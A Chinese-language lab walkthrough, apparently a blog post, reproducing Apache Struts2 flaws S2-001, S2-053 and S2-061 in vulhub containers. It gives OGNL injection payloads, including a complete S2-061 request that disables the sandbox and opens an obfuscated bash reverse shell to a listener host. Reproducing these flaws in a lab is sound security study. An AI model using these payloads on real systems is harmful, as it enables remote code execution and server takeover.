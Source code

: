 使用Vuldb靶场进行复现  
```
cd vulhub/struts2/s2-001
```  
  
而后开启容器  
```
docker-compose up -d
```  
  
![image-20230419194425781](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5nrhHpVgibgxTfnRaiawCBgUdA9SxUf2X5ny1m0b2T2jfGPj6lWb3fEuQ/640?wx_fmt=png&from=appmsg "")  
  
输入**%{1+2}**，结果变成3  
  
![image-20230419194653538](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK53JKDd0QXB5BYHYz7LGsPNibLLSwibHI8OZI6iaDDbl9ZpdTshibQiaBZWXA/640?wx_fmt=png&from=appmsg "")  
  
说明解析了，存在漏洞，查询tomact路径  
```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```  
  
![image-20230419195600069](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5sFHgJOXr3ibYibN8OKewsLNY0xTLONUoyzy5n7AJ4cwrvtPs339f6Rog/640?wx_fmt=png&from=appmsg "")  
  
回显**tomcatBinDir{/usr/local/tomcat}**，成功实现命令执行  
#### s2-053  
```
cd vulhub/struts2/s2-053docker-compose up -d
```  
  
![image-20230419200514727](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5bkCKqKG1FZO5lDmrtxzqHcYjvk3JicCFBOAWbZsDnc6bbOzFetaaeQg/640?wx_fmt=png&from=appmsg "")  
  
访问环境**hello.action**  
  
![image-20230419200833587](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5KiamicE9YCyByqtMajjVs10rRAGmicvdmyO9x2icdqQqXiasybJ2b9gict0Q/640?wx_fmt=png&from=appmsg "")  
  
接下来查看监听  
  
![image-20230419203040680](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5S9J0ibsCibaF6v5icdomX0PHm9xpqkYub9QDDl6M413f4xfBt0pX6zFlw/640?wx_fmt=png&from=appmsg "")  
#### S2-061  
  
开启环境用vulhub  
```
cd vulhub/struts2/s2-061docker-compose up -d
```  
  
接下来抓包，而后修改为POST请求，发送反弹shell恶意指令  
```
------WebKitFormBoundaryl7d1B1aGsV2wcZwFContent-Disposition: form-data; name="id"%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTI5LzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```  
  
